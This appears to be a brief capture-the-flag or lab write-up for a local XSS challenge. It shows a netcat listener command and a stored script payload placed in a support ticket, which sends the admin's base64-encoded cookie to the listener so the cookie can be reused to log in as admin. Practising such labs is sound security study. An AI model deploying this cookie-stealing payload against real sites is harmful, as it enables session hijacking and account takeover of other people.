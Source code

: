 Challenge: steal admin cookie.

User interface: http://localhost/labs/x0x03.php
Admin interface: http://localhost/labs/x0x03_admin.php

---

Start a netcat listener to exfiltrate the cookie:
```bash
nc -vnlp 8888
```

As user create a support ticket that sends the base64 encoded cookie to the netcat listener:
`<script>fetch("http://127.0.0.1:8888?cookie=" + btoa(document.cookie))</script>`

When the admin checks the support tickets, the XSS payload is triggered and his cookie is send to our netcat listener:
![[Pasted image 20240326134101.png]]

Base64 decode the cookie:
![[Pasted image 20240326134147.png]]

Now we can use the admin_cookie to login as admin.